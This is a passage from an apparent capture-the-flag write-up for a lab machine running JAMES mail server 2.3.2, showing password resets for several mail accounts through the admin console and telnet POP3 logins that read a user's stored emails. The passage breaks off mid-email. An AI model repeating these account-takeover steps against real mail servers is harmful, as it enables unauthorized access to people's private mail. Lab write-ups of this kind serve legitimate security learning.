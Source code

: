 Now that we reset the password for the mailadmin account, let’s access his email using telnet.

```text
root@kali:~# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mailadmin
+OK
PASS password
+OK Welcome mailadmin
LIST
+OK 0 0
.
```

He does not have any mail. Next, I’m going to reset the passwords of all the other accounts.

```text
setpassword james password
Password for james reset
setpassword thomas password
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
```

James, Thomas and John didn’t have any emails too. Mindy on the other hand had two emails stored in her account.

```text
root@kali:~# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS password
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: WelcomeDear Mindy,
```